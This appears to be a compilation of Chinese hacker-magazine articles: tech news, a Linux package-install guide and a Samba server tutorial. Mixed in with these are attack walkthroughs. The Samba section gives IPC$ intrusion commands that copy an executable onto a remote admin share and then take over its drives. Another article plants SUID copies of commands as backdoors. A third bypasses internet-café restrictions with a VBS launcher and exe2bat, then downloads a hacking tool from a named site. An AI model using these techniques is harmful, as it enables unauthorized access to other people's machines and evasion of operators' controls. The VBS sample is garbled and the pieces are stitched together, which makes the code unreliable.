ODF 格式可以让不同程序、平台之间自由地交换文件而不需要理会是何种应用程序所产生的文件，其主要的支持厂商是 Corel、IBM、Opera、甲骨文、红帽以及国内软件厂商共 2000 多家公司。微软推行的 OpenXML 格式作为 ODF 的取代方案，同时也在积极地要让 ISO 国际组织通过成为标准，但还未获得通过。

> lala：关于标准的新闻这年头从来都没有断过，关于垄断的新闻其实也没有断过。它们之间多少有点联系么？有些时候好像那些选择就是保护垄断的，如果有一天 ODF 收费了，我们可能又要支持另一个开放的格式……我们要的只是自由！虽然有些时候只是精神上自由。

## 奇趣科技 Qt 技术进入 LSB 3.1 最终发布版

为软件的快捷开发和简便操作提供领先技术的奇趣科技公司今天宣布，其 Qt 软件技术已成为 LSB（Linux 标准库）3.1 最终版本的标准规范文档的一部分。

作为免费标准组织（Free Standards Group）的一个工作组，LSB 致力于为 Linux 桌面开发一个一致认可的标准基础运行环境。

这个新标准文档在符合 ISO 标准的 LSB 核心（LSB Core）中增加了新的桌面库规范。特别指出的是，它包括了 Qt 3.3 的类库和基于 Qt 的应用程序所需的工具。该标准文档还允许一个可选模块将基于 Qt 4 的应用程序融入到主流 Linux 发布版，GTK+ 的类库也包含在其中。

> lala：使用 KDE 的没有不知道 Qt 的，云帆的 EVA 也是基于 Qt（Linux QQ 客户端），很多朋友都在 GTK 和 Qt 之间徘徊，寻找不久的将来它们就要统一了！其实 lala 一直喜欢 Gnome，原因是 Gnome 的主题安装很简单（比较 KDE 而言），可以很快地把 X 弄得很漂亮。

## 微软高层：开源 Office 是 10 年前产物 免费都不用

微软信息工作者事业部（IW）总经理 Alan Yates 表示，消费者花费 500 美元甚至更高的价格去购买即将上市的 Office 2007 是值得的；而开源的 OpenOffice 2.0 仅相当于微软 10 年前的产物。

据外电报道，Alan Yates 称：我们有足够的理由让消费者宁愿花费 500 美元甚至更高的价格去购买 Office 2007，也不愿免费使用 OpenOffice 2.0。Yates 说：“这取决于用户的工作性质。当然，如果仅仅是写写字，那么 OpenOffice 是够用了；但事实上，当前 OpenOffice 所能解决的问题，微软 10 年前就已经做到了。”

> lala：好多年前微软和 Adobe 争电子书格式，一直掐到今天又掐……虽然 doc 在事实上是使用最多的文档格式，但微软还是咽不下这口气！当然，要是只是写写字，记事本也够用了。

lala 在推广非 Word 文字处理系统的时候遇到了很多障碍。第一个经验就是老老实实，习惯的问题导致了许多人不能坚持使用新生态。

## Linux 恶意软件飞速增长，危险性增加

根据俄罗斯反病毒软件公司 Kaspersky 的报告，2005 年间针对 Linux 的恶意软件数量增长了一倍，Mac OS X 也面临着严峻的考验。以往那种认为不使用 Windows 就可以保证安全的想法已经渐渐开始不再适用了。

这篇报告题为《2005 年 *NIX 系统中恶意软件的发展》，其中指出，针对 Linux 的恶意软件，包括病毒／木马／后门软件／漏洞程序等等，已经由上一年的 422 种增加至 863 种。单纯从数字来看，这与 2005 年下半年 Kaspersky 在 Windows 上发现的 11000 种恶意软件相比完全不值一提。然而 Linux 恶意软件往往会有更大的危害，因为多数用户认为恶意软件只针对 Windows 而没有采用足够的防范措施。

> lala：对于这种报道，例子之类早已有很多，但就 lala 的观察，Linux 下的 bug 不比 Windows 少。很多能够造成危害，甚至引发病毒攻击的都是很小的疏漏。这可能算是 *NIX 先天设计的优越在某些地方被大家忽略了。如果你有 Linux 的经验，你还要多分享啊……嘿嘿，会记住你！

系统环境：Linux 版本——Fedora Core 4

用惯了 Windows 的用户一般不易于转换到 Linux 的软件安装模式，本文就带你学习几种基础的 Linux 软件安装方法。

## 一、rpm 文件

就像 Windows 的 MSI 一样，安装很容易。所谓的 RPM 就是 RedHat Package Manager 的缩写，是由 Red Hat 公司开发的软件包管理程序，对于 Linux 初学者来说在安装上是非常方便的。而管理 RPM 最基本的工具也就是命令 rpm，通过不同的参数来实现繁多的功能。

> Linux 中的命令、参数是区分大小写的。

- 1. 安装

输入命令 `rpm -ivh *.rpm` 就能完成安装了。安装的时候 rpm 会检查包的依赖性，如果需要的文件没有的话是不可以进行安装的，解决的办法自然还是下载对应的包就 OK 了。当然，也可以使用 `--test` 选项来测试安装，以查看需要哪些支持。而选项 `--nodeps` 是不检查依赖性关系的。

> （强烈建议：除非你真的确定，不然请不要使用 `--nodeps` 参数。可以到 http://www.rpmfind.net 找需要的 rpm 安装包。）

- 2. 升级

使用命令 `rpm -Uvh *.i386.rpm` 就可以完成对现有软件包的升级了。系统会自动删除相应的软件包老版本，如果配置文件同新版兼容，则会自动将其保存为另外一个 `.oldconfig`、`rpmsave` 文件。

- 3. 查询

使用命令 `rpm -qa` 可以查询系统中的文件包。  
使用 `rpm -qf Filename` 可以查询 filename 文件存在于哪个 RPM 包里。  
使用 `rpm -qp File.rpm` 可以查询软件包的文件。  
使用的时候可以与 less 命令同时使用，如 `rpm -qa | less`，方便查询。

- 4. 卸载

使用命令 `rpm -e packagename` 就可以完成卸载。至于包的名字是什么，通过 `-q` 查询就可以了。

- 5. 校验

使用 `-V` 选项来校验已安装的 rpm 包，而使用 `-K` 选项来校验文件包中的文件。如果你想查看关于 RPM 包的安装信息的话，可以使用 `-v` 选项，或者 `-vv` 选项得到更详细的信息。

- 6. *.src.rpm 包的安装

`.src.rpm` 包含了程序的源代码，安装时需要编译。以下是安装步骤：

```bash
rpm -ivh software-package.src.rpm
cd /usr/src/redhat/SPECS
rpmbuild -bb software-package.spec
```

接着就会在 `/usr/src/redhat/RPMS` 生成已经编译好的 RPM 文件，直接安装就可以了。

## 二、tar、tgz、tar.gz

- 1. 安装

```bash
tar -xzvf filename
./configure
make
make install
```

首先是解压缩包，当然也可以在 X 下完成，接着进行安装配置，然后编译、安装就可以了。

> configure 没有顺利完成，一般会提示缺少什么文件，从网上下载对应的包，然后安装。

- 2. 清除临时文件和配置文件

安装完成后，可以使用 `make clean` 和 `make distclean` 来清除编译过程中产生的临时文件和配置过程中产生的文件。

- 3. 卸载

在安装目录下使用 `make uninstall` 就可以完成卸载了。

## 三、*.bin、*.sh

bin 是二进制的机器语言，sh 则是脚本文件，它们的安装方法类似。

*.bin 文件是源文件经过编译后得到的二进制机器语言。著名的媒体播放软件 RealPlayer 的 Linux 版本就是以这种格式发放的。

安装这两种文件都很简单，在目录下直接执行 `./filename` 就可以了，接下来的交给程序本身去完成吧。

不过进行以上两种文件安装之前，一定要修改它的属性，修改为“可执行”的，剩下的过程就是它的事情了。

其实 Linux 的软件包管理还有很多方法。尤其是 rpm 的管理，比如 yum、apt，我们会在以后的杂志中介绍。如果你已经发现了，不妨分享给大家吧。

> 编辑点评：从 Windows 转为 Linux 有许多都需要适应，软件安装是很重要的一步，很多朋友就此问题求教。或许本文能帮你管理软件更容易些。当然 Linux 还有功能更强大的软件管理工具，不同的发行版本也有各具特色的工具，欢迎大家来分享经验。

## 菜鸟学习 Linux 服务器

### Samba 篇


首先，介绍一下 Samba 服务器的作用，它是 Linux 的一种文件服务器，它可以共享 Linux 系统文件以及共享打印机给其它操作系统。Samba 无论是在现实工作中还是 Linux 系统学习中都是很重要的，今天就来介绍一下 Samba 服务器的配置。

Samba 软件包最新版本已经到第四版了，你可以到 www.samba.org 下载或到中国的镜像网站下载。我们以 Fedora Core 1 讲解 Samba 服务器的配置及在办公中的应用。

SMB（Samba 的简称）的配置文件是在 /etc/samba/ 路径下的 smb.conf 文件，我先简单地介绍一下 Samba 服务器配置文件选项的意思，用 vi 编辑器打开 smb.conf 文件。

```bash
service smb start
service smb stop
service smb restart
```

图 2 控制 Samba 服务器的开启、停止。

```ini
workgroup = ...
server string = ...
netbios name = ...
log file = /var/log/samba/%m.log
security = user
encrypt passwords = yes
smb passwd file = /etc/samba/smbpasswd
```

以上是该文件的简单介绍，SMB 的配置选项很多。为了不让读者们看着杂志枯燥得想睡觉，我们以一个简单的案例来介绍服务器的配置。

### 一、安装 Samba 软件

软件我们以 rpm 格式安装，如果你用源代码安装，看一下软件包中的帮助文件，可以给你一定的帮助。今天就简单一点，用光盘中的软件包安装。进入第一张安装盘 `/Fedora/RPMS/` 的目录，用 `rpm -ivh --aid samba*.rpm` 进行安装。

```bash
wget .../rpmdb-fedora-1-i.0.20031103.src.rpm
```

图 1 从远程下载 rpmdb.rpm 软件。

```bash
cd /soft/Fedora/RPMS/
rpm -ivh --aid samba*.rpm
...
4:samba-client #### [100%]
```

以上 /soft 目录是我用 autofs 自动挂载的，你可以使用 `mount /dev/cdrom /mnt/` 来挂载自己的光驱设备。安装完成后，我们可以用 `service smb start`、`service smb stop`、`service smb restart` 命令控制服务器的开启、停止。

### 二、应用案例

- 1. 案例条件

我们用案例来模拟一个公司办公室的文件服务器，假设公司有三个部门，每个部门有两个员工。

(1) 所有员工都可以在公司的任何位置移动办公，无论在任何位置都可以把自己的文件保存在 Samba 服务器上。  
(2) 财务部（finance）、技术部（technic）、销售部（vendition）各有一个部门共享目录，为该部门内员工使用。  
(3) 每位员工都有自己的私有目录，并且所有员工都可以使用一个共享目录（office）。  
(4) 为了安全，所有员工不允许使用服务器上的 shell。

- 2. 案例分析

(1) 私人目录，只要安装完成 Samba 服务器，为指定用户创建用户账号，就会在服务器上 /home/ 目录下为其创建个人目录，该目录默认权限就是 700。  
(2) 财务部、技术部、销售部共享目录，可以自定义不同组，把各部门员工加入各组里即可。  
(3) 建立用户账号的时候，指定 shell 为空（/dev/null），使该用户无法登录服务器终端。  
(4) 所有员工的共享目录，建一个公有目录不设访问用户即可。  
(5) 把 rose、red 两位财务部员工加入 finance 组，把 green、blue 加入 vendition 组，把 black、white 加入 technic 组。  
(6) 为各部门创建目录 /home/technic、/home/vendition、/home/finance，并修改目录权限，使其分别属于对应组。  
(7) 修改 Samba 配置文件（/etc/samba/smb.conf）。

### 4 具体配置

首先添加组 technic、vendition、finance，并将所有下属员工添加账号并添加到相应的组内。（图3）

```bash
groupadd technic
groupadd vendition
groupadd finance
useradd -g finance -s /dev/null rose
useradd -g finance -s /dev/null red
useradd -g vendition -s /dev/null green
useradd -g vendition -s /dev/null blue
```


> 小知识：`groupadd groupname` 可以添加一个用户组；而 `useradd -g groupname -s /dev/null username` 可以添加用户的同时指定组并且指定其登录服务所用的 shell，`/dev/null` 代表空（不可登录服务）。

Samba 服务器用户必须是系统用户，但系统用户不一定是 Samba 用户。我们使用 `smbpasswd -a username` 将用户添加到 Samba 的密码文件中。若用户很多，可用 shell 批量添加（图4）。


```bash
for user in black white
do
  useradd -g technic -s /bin/false $user
  smbpasswd -a $user
done
```

当我们新建用户的时候是可以自动添加该用户的目录的，并且权限为 700（图5）。但是新建组不能直接添加，需要手工建立目录。

要手工来为组建立目录，工作目录建在什么位置都可以。为了方便管理，建议把它建在 /home 目录下。


为每个部门创建共享目录时，可以在一行中执行：`mkdir /home/technic /home/vendition /home/finance`。之后用 `ls -ld` 查看权限。初始权限通常是 root:root 且 755，不满足部门协作需求，需要修改属组并将权限改为 770（图7）。

> 提示：在图5中命令 `ls -l /home` 前面的 `/` 很关键，否则可能看到的是当前目录而非 `/home`。

```bash
chgrp finance /home/finance/
chgrp technic /home/technic/
chgrp vendition /home/vendition/
chmod 770 /home/finance/ /home/technic/ /home/vendition/
```


为了让所有用户在修改该文件时都能保持组权限继承，需要对目录加上 s 位，再查看权限（图8）。

```bash
chmod g+s /home/finance/ /home/technic/ /home/vendition/
\ls -ld /home/finance/ ; \ls -ld /home/technic/ ; \ls -ld /home/vendition/
```


> 小知识：如果把单独命令写在一行输入，需要在命令之间加 `;` 分隔，例如 `make ; make install`。

好了，我们已经完成系统磁盘的配置，现在只需要把 SMB 的配置文件修改一下即可。用 vi 打开 `/etc/samba/smb.conf`，按公司实际情况修改相关选项。```ini
workgroup = workgroup
server string = samba file server
netbios name = www.safecn.net
log file = /var/log/samba/%m.log
security = user
encrypt passwords = yes
smb passwd file = /etc/samba/smbpasswd

[finance]
path = /home/finance
comment = explain
valid users = @finance
write list = @finance
create mask = 0770
directory mask = 0770
```

我只是添加一个部门的目录，大家可以用这个格式来把其它目录添加到配置文件中（图9）。至于共享目录 office，建立 office 目录权限设成 777 或你想要的权限，并在配置文件中添加如下信息即可。

```ini
[office]
path = /home/office
public = yes
writable = yes
```

这时我们可以使用 Linux、Windows 的客户端来测试了，当然如果你改过配置文件就要重新启动一下 SMB 服务，使其修改生效。在 Linux 系统输入 smbmount //192.168.3.254/ceo /mnt/ -o username=ceo%ceo 来测试服务器。命令提示：用客户端工具 smbmount 挂载服务器（192.168.3.254）上的 ceo 目录到本机的 /mnt 目录下，username=用户名%密码。

大家不要以为 ceo%ceo 是重复指定两个用户名噢，是因为容易记忆，我把用户名和密码设成相同了（图10）。我们还可以用 Windows 用户登录服务器测试，输入用户名和密码就可以进入该服务器，默认的是可以显示自己用户目录及所有组的目录，但是只能访问自己的目录及自己所在部门的目录！如果要换用户可以注销一下计算机。我们进入 finance 目录，新建个文件，我们在服务端及客户端看看，如图11 和图12。

如果你也可以看到上面的结果就说明服务器可以正常工作了，大家可以在自己的计算机上测试一下其它用户，我直接在 Linux 系统测试各个组是否可以正常工作（图13）。

## 三、SMB 客户工具技巧

大家是否都非常熟悉 IPC$ 这种攻击模式呢？从小菜的时候就开始运用的攻击手法！

```bat
net use \\192.168.1.2\ipc$ "" /user:"administrator"
net use z: \\192.168.1.2\c$
copy c:\smb.exe \\192.168.1.2\c$
```

这是对付 Windows 2K 的经典手法，也是方便我们网管对远程用户管理的。那么现在很多朋友都开始学习 Linux 系统，你知道如何用 Linux 利用这个“漏洞”吗？下面就开始了！我们怎么在局域网中找到其它主机呢？当然是用 ping 命令了，这个命令在 Linux 里有个 -b 的参数，可以扫描网段生存的主机，如果你用扫描器那就更方便了。

我们也可以用 nmblookup 来查看网段上是否有共享的主机，还可以用 **smbtree -b -U administrator** 来测试一下网段上有什么共享资源。图中有很多乱码（图14），这是系统编码问题，但是从 C$、H$……可以看出，这就是 Windows 系统的默认共享目录。

然后我们用 ping 主机名，拿到该主机的 IP 地址，这时我们就可以用 **smbclient -L //192.168.3.1/ADMIN$ -U administrator** 得到共享资源（图15）。很清楚而且很眼熟吧。当然前提是你要知道对方主机的密码！

得到了这么多信息，那我们怎么才能登录该主机或访问它的磁盘呢？我们可以用 **smbclient //192.168.3.1/c$ -U administrator** 命令登录该主机；这时 smb:\> 是不是也有点 Windows 系统的味道呢！（图16）

现在我们就可以上传（put）下载（get）文件了（图17）。小菜们要说了，我在 Windows 系统可以用 `net use z: \\192.168.1.2\c$` 命令映射对方的目录到本机上，而且使用图形操作，多方便啊！Linux 也可以！因为本人计算机没有安装图形界面，所以我们只能在字符界面演示把它“映射”到本机目录的过程了。我们用 **smbmount //192.168.3.1/ADMIN$ /home/redhat/ -o username=administrator** 命令把 Windows 目录挂载到本机，前提是你本机上要有 /home/redhat 目录，否则你要手工新建一个或挂载到其它目录上，这时你就可以用 `ls /home/redhat/` 来看效果了（图18）。

在图18中，可以看到一个 Rav.ini，用过瑞星软件的一定看着眼熟，这就是对方机器上的 `c:\winnt\` 目录，如果你连接上去的是管理员用户，那也就有了管理员的权限，可以删除、添加及改写文件（图19）。

这些对于 Samba 服务器来说只是一些简单的操作，但是它还是可以满足上百人的公司需求的。本文没有对配置文件全面介绍，如果想了解一下其它选项，你可以到 `http://www.safecn.net/data/2006/0430/article_59.htm` 查找一下，或者看 Samba 提供的帮助文件。如果大家有什么问题可以到《黑客手册》官方论坛发帖咨询。

> 编辑点评：本文生动地介绍了 Samba 的功能，虽然没有非常深入，但所涉及的内容在日常应用中绰绰有余了。而“SMB 客户工具技巧”虽然技术含量不高，但也为大家提供了一些常用的思路和工具。图形版的“网上邻居”工具《黑客手册》以前有过介绍，大家可以参考着学习。

## 利用 Set UID 权限查看 root 目录

在阅读本文之前，我先来简单给读者介绍一下本文涉及到两个关键词 UID 和 SUID。

> **UID**：系统用户和 UID 是一对一的对应关系，也就是说一个 UID 对应一个用户。root 用户的 UID 就是 0，换句话说 UID 为 0 的用户拥有 root 权限。

**SUID**：任何用户在使用具有 SUID 权限文件时，可以达到文件所有者所使用的效果。

对于 Linux 文件权限相关的文章，文件与目录的权限设置不止这些，还有所谓的特殊权限。由于特殊权限会给某些用户一些“特权”，因此用户若无特殊要求或对特权不太了解时请不要使用它们。如果权限设置不好会成为明显的漏洞，而直接被“黑客”利用。

原本管理员设置 SUID，是为了不使用管理员身份登录而由普通用户来管理系统的一些事务，是为了减少 root 用户对系统的破坏。但是请注意，黑客经常利用这种权限，将拥有者为 ROOT 的文件配上 SUID，无声无息地在系统中开启后门，供日后进出使用。

```
cd /tmp/
ls -l ls ; ls -l ping
-rwsr-xr-x 1 root root 73460 ... ls
-rwsr-xr-x 1 root root 33556 ... ping
```

图1 查看 SUID 文件

我们先看一下，SUID 权限是怎么加到文件上的。输入 `su -c "chmod u+s /tmp/vi"`，调用 root 权限运行命令后，会在该文件用户部分加上 `s` 位。

```
su -c "chmod u+s /tmp/vi"
Password:
ls -l vi
-rwsr-xr-x 1 root root ... vi
```

图2 查看更改权限后的文件

利用 SUID 查看 root 目录。普通用户默认无法切换目录或查看 root 目录内容。

```
whoami
hacker
id
uid=503(hacker) gid=503(hacker)
ls -ld /root/
cd /root/
Permission denied
ls -l /root/
Permission denied
```

图3 当前用户无权查看 root 目录

- 服务器环境：
- 我们 root 目录假设无权改变它的权限。
- 不能提升当前用户权限。

查看目录所用的命令是 `ls`，该文件在 `/bin` 目录下。若把该命令复制并设置 SUID，就能用其特性来查看 root 目录都有何内容。

```
ls -l /bin/ls
-rwxr-xr-x 1 root root ... /bin/ls
ls -l /tmp/ls
-rwsr-xr-x 1 root root ... /tmp/ls
```

图4 系统默认的命令和加上 SUID 位的命令比较

在不改变 root 目录权限、也不提升普通用户权限的情况下，使用带 SUID 的 `ls` 可以查看 root 目录。

```
ls -ld /root/
whoami
hacker
id
./ls -l /root/
...（成功列出 root 目录文件）
```

图5 利用 SUID 权限查看 root 目录

我们可以用 `ls -l /usr/bin/ | grep "...s"` 来过滤查找系统中带有 SUID 权限的文件。

```
ls -l /usr/bin/ | grep "...s"
-rwsr-xr-x 1 root root ... at
-rwsr-xr-x 1 root root ... chage
-rwsr-xr-x 1 root root ... chfn
... ...
-rwsr-xr-x 1 root root ... sudo
```

图6 搜索带有 SUID 权限的命令

> 编撰后语：看完文章你想到什么？对！后门！有了这些权限，任何一个账户都可以变成后门。所以做维护工作的朋友就要注意了，使用 SUID 千万要谨慎。

## 薪风飘雨絮！

理论上的六月应该是阳光明媚，我脚踩地球头顶天花板，大吼一声我风飘雨又回来了，嘿嘿哈嘿\~\~\~不小心时来运转，偶混进了黑手超级编辑部，在这里偶感谢 CCTV 感谢 MTV 感谢《黑客手册》也感谢正在看着这行字玩命傻笑的你~ 对，没错，严肃点儿，就说你呢！你要知道，你的支持才是我最大的动力哦！我们的杂志，只因为广大的读者而存在。小弟我初来乍到，有什么不足还望大家多多指教；我一定会尽我的努力，给大家献上最精彩的内容……好了，不多说了，看看这期的泡泡吧给大家准备了什么精彩的节目吧……

## 网吧限制破解万能聊天

- 1. 利用 vbs 来解除这种限制。
- 2. 该文章是 ex2bat.exe 给到手我改编的写的。

然后 Ctrl+A 全选删除，写如下内容：

```vb
On Error Resume Next
set ws=shell=createobject("wscript.shell")
a=wsrshell.run("\gpedit.msc",0)
```

### 一、概述

现在绝大多数的限制都来自于网吧管理软件，有少部分是管理员自定义的。但是两者都是通过相同的手段来达到目的的，这种手段大多数甚至是全部来自于对注册表的修改。本文不是站在破解网吧管理软件的角度，破管理软件固然可以一了百了，但市面上 N 多的管理软件要统一起来写是不可能的，因此笔者是站在系统的角度写下这篇文章的。

然后保存为 gpedit.vbs，目录不用改（你也改不了），但是你要记住。一般从浏览器保存的源文件默认目录不是“我的文档”就是桌面，这个默认设置对于我们来说是很重要的。

需要说明的是 vbs 文件中的 gpedit.msc 组策略编辑器，经我实验，就算禁止访问和隐藏了驱动器也是可以直接访问其中的文件的，而且组策略中有一个“不要运行指定的 Windows 程序”的安全选项，如图2所示。我发现，即使在其中添加 gpedit.msc 也是禁止不了的，我也不清楚为什么会这样，而 cmd.exe 却可以禁止。所以组策略自然成为我们的最佳选择。

> （编辑注：此选项只是禁止可执行文件，而 gpedit.msc 并不是真正意义上的可执行文件，它是通过调用 mmc.exe 来实现的，所以这里只填入 mmc.exe 就可以将 gpedit.msc 禁止掉了，当然其他的管理选项也会同时被禁止掉。）

### 二、环境

在我的意识里，如果可以下载和运行，那基本没有什么办不到的。今天的主角就是它们两个，剩下的问题相信精锐网吧辅助工具会解决得很漂亮。首先我们要搭建一个最 BT 的环境来模拟，很多网吧就是这样。限制有：禁止访问和隐藏所有的驱动器、禁止访问命令提示符及命令提示符脚本（就是 bat 文件）、禁止访问注册表、禁止下载、右键和运行，其他限制按默认设置处理。

### 三、突破限制

确立我们的目标只有一个：下载并运行精锐网吧辅助工具。首先要把一些碍手碍脚的限制 kill 掉，由于无法进入任何驱动器，无右键或无桌面，使得我们建立文件也成难题。没关系，follow me！打开 IE.exe，进入 www.google.com，点“查看(V)”，选“源文件(C)”，如图1所示。

但如果是禁止访问驱动器，那其中的目录也是不可以访问的，如图3所示。

而单纯地隐藏驱动器却可以间接进入目录，至于怎么间接进入后面会有提到。前面说过，限制都是来自于注册表的，而组策略正是扮演了一个直观的注册表外壳的角色，因此微软的组策略竟成了我们限制破解的神兵利器！OK，理论暂告一个段落，让我们来看看如何运行那个 vbs 文件。

由于无法访问驱动器且无法访问任何目录，因此我们只有直接访问该文件这一路了。点“开始”——“搜索”，如果没有开始菜单的话用 F3 或者 Ctrl+Windows 旗键+F 快捷键，就进入了系统的搜索程序。管理员在这方面的限制还是很少见的，至少我没有见过。

其中搜索的文件名当然是刚刚保存的 gpedit.vbs，搜索范围则选择刚刚保存文件的目录，如图4所示。

也许你会发现，搜索范围只有那么有限的几个，“我的电脑”以及各驱动器都是不可以搜索的，而用浏览器保存文件则刚好是在这几个目录的范围内，正好利用，不是吗！~

嗯，填好之后就点搜索吧，一下就找到了。然后双击 gpedit.vbs，看组策略是不是出来了，如图5所示。

拥有了组策略，还有什么不能干呢！把一些不爽的限制全部恢复：

- 用户配置——管理模板——Windows 组件——Windows 资源管理器——从“工具”菜单删除“文件夹选项”菜单
- 用户配置——管理模板——Windows 组件——Windows 资源管理器——隐藏“我的电脑”中的这些指定的驱动器
- 用户配置——管理模板——任务栏和“开始”菜单——从“开始”菜单删除“运行”菜单
- 用户配置——管理模板——系统——禁止访问命令提示符
- 用户配置——管理模板——系统——禁止访问注册表编辑器
- 用户配置——管理模板——系统——只运行许可的（不要运行指定的）Windows 应用程序
- 用户配置——管理模板——系统——Ctrl+Alt+Del 选项——删除任务管理器
- 用户配置——管理模板——桌面——删除桌面上“我的电脑”图标
- 用户配置——管理模板——桌面——隐藏和禁用桌面上的所有项目

全部禁用就可以了。

### 四、突破下载

突破限制已经成功了一大步，下面我们来破解禁止下载。就我研究并且试验成功，单纯使用注册表禁止下载只对图形界面程序有效，对命令行下的工具是无用的。这时有读者会说可以用 wget.exe，我说当然，可是它 325K 的身材真是不敢恭维。我一般用传说中的 mt.exe，40K 的体积和强大的功能让很多朋友钟情于它。这里又涉及到一个问题，既然禁止了下载，那又怎么获得 mt.exe 呢？问得好！这正是本文精华之所在——exe2bat 老树新花之巧妙绕过禁止下载大法！

既然它不让下载就不下，自己编译工具又有什么不可以，手工编译如果你有技术和条件当然好了，但费时费力。exe2bat.exe 可以帮我们完成烦琐的工作。exe2bat 的原理是将 exe 文件先转化成十六进制写进一个文件，然后用 debug 命令（一个简单的汇编环境）还原。也就是说我们只要有 mt.exe 的十六进制代码就可以了，这也是为什么我要选择只有 40K 的 mt.exe 的原因了。用 exe2bat 转化其他程序时如果程序过大会造成假死，而且生成的代码量大，这些都是我们不愿意看到的。

```
exe2bat input.exe output.bat
```

图6是我转换的 mt.exe。

> （注意：有读者可能会问，既然网吧不能下载，那你的 exe2bat 是从什么地方搞来的？呵呵，这工作是在非网吧机器上完成的，下面有提及。）

转化完成后，用记事本打开同目录生成的 mt.bat，Ctrl+A 全选复制。然后登录你的邮箱，写信，把信的内容粘贴上 mt.exe 的十六进制代码然后存草稿就可以了，如图7所示。

……当然这些都是前期工作，你坐在网吧的时候，代码就已经在邮箱里了。破解流程是这样的：登录邮箱，打开草稿箱复制 mt.exe 的代码，粘贴到本地并保存为 mt.bat。直接双击运行这个 bat 文件就可以得到 mt.exe 了！进入 cmd.exe，转到 mt.exe 所在目录，输入命令：`mt -netget http://download1.77169.com/soft/hacktools/other/20050320jingruiv4.0.zip hehe.zip`。如图 8 所示。


图8 利用 mt.exe 下载文件

其中的 URL 为精锐网吧辅助工具在华夏黑客同盟网通用户的下载地址，附电信用户地址：`http://download2.77169.com/soft/hacktools/other/20050320jingruiv4.0.zip`。好了，精锐网辅助已经在本地……

## 五、友情提示

- 同样是打开 IE，点收藏(A)，然后双击其中的链接就可以进入 `C:\Documents and Settings\user\Favorites` 链接目录了；
- 进入 QQ 设置，选择系统设置的传输文件设置，点击管理 cache 目录就可以进入 `X:\qq\QQFileCache` 目录了。如果可以用 `cmd.exe` 的话，用命令 `start path` 就可以进入指定目录，而 `start .` 则是进入当前目录。

OVER! 大家有什么问题欢迎来 www.nohack.cn/bbs 讨论！本文另辟蹊径，巧妙地利用了 exe2bat 来将下载软件的代码复制到网吧，再利用浏览器配合将其执行……

## 没有黑客，也能破网吧——信息收集和分析篇


总跑来吐糖

> 从本文你可以学到：  
> 1. 什么是无盘网络、“98 无盘网络”的优缺点；  
> 2. 概括性地介绍了现今 98 无盘网吧的构架和防御技术；  
> 3. 列举以往入侵无盘网吧教程中的一些逻辑上和方法上的错误认识。

哇！这当然是一个身为管理者最不愿意看见的事情……本文将针对“万象”系列的管理软件和以 Win98 为工作站 OS 的无盘网吧环境，从三个方面给大家做一个原理性的分析。

## 一、网吧安全隐患概述

现在大多数人仍是在网吧上网的，虽然已有一部分条件好的网吧采用了 XP 的操作系统作为客户机……这就意味着你辛辛苦苦做的配置会被某些无聊的客人稍做手脚就不起作用了。

## 二、物理设备方面

想必大家都应该知道 Windows98/Me 的操作系统特点是多媒体性能佳、支持软硬件多、对配置要求低……而在一个 XP 的网吧，这是不可能发生的事情。

- 无盘并不是没有硬盘，也并非只有一块硬盘；网吧和服务器硬盘配置通常较高，服务器常采用更快读写技术。
- 即使工作站配置再好，也只是为客户提供基本网络消费服务；参数和线程设置越多，稳定性可能越差。

单靠扫描器，可是收获来的信息利用价值却很低。我们在 WIN98 和 WINXP 的 OS 上分别去扫 WIN2K 的主机，其结果对 WIN98 是没有任何优势可言的，更何况许多高版本的黑软就不支持在 WIN98 的 OS 平台上运行。


### 2 共享入侵主机是否可行呢？

所谓的共享入侵对于 98 无盘网吧而言，更贴切地讲应该只能算一种逻辑上的共享。在无盘网吧中，虽然我们是在工作站上操作，但和直接操作主机基本上没有区别，唯一的区别就是你是被它限制的。两者的关系只是被人为地划分为了主从关系。而所有的限制只是对工作站而言的，所以你不要误认为是因为服务器受到一样的限制才使你也因此而受到限制。这里怎样绕过限制才是问题的关键！

### 3 那如何入侵数据库给自己充值呢？

很简单，Down 一个有文件管理器功能的软件，查找 `*.mdb` 即可（给自己“中个奖”也一样的）。可实际上呢？如图1所示，这是我查找 C 盘下 `*.mdb` 文件的结果，打开后发现根本没有一个是万象的数据库。

### 4 那么数据库呢？是否在别的盘呢？

这里我依然可以负责任地告诉你，数据库在网络服务器上是找不到的，早就被移到电影服务器了，因为这样做更安全！这也是网吧的通用方法。再分析一下，别的教程中通常说管理软件路径是在 `C:\Program Files` 下，其实这只是每个程序安装时的默认路径。而“万象”的原始路径是在 `C:\Windows\system\octopus` 下的（服务器上系统文件的路径哦）。至于 `C:\octopus` 嘛，只是包含在工作站里的客户端文件夹而已，更不存在服务器端和客户端程序都安装在一起的情况。这个原理和木马的控制原理是一样的（即服务器能控制多个工作站）。

### 5 究竟是谁在限制我们？

经常有人说“XX 管理软件好强啊，谁帮我破了它”的话，其实管理软件在整个安全模式中唯一的作用只是用来计费的，它本身的限制功能只是一个陪衬而已。现今主要是通过修改注册表、第三方安全软件和修改系统 DLL 文件三方面的结合来维护安全的。注册表这里就不说了。第三方安全软件就是 Magic98.exe（“万象”系列管理软件专有的），其实它只能算一个辅助软件，因为它并不是一个单独运行的程序。至于修改系统 DLL 文件的方法正好弥补了前面的不足，通过修改系统的 DLL 文件，可以实现禁止删除文件、禁止 IE 下载、禁止 IE 另存为、禁止文件打开方式等许多功能。想必“精锐网吧辅助工具”大家都用过吧！然而真正能在无盘网吧中起作用的功能真的很少，原因是很多系统本身的文件或程序并不存在或者已经被改变了。这里建议大家在没有必要的情况下，尽量用功能专一的工具。

### 三、应用程序方面

想必这个方面大家最感兴趣的话题应该就是如何“免费上网”了，那现在我就来揭开一些实质的问题让大家了解“真相”背后的故事。

### 1 杀了进程真能免费上网吗？

这是一个很老的话题了，然而还有很多人在说。但事实上并非能如你所愿，要知道我们即使杀了进程，服务器还是在计费的，所以必须还得去老板那里结账才行。

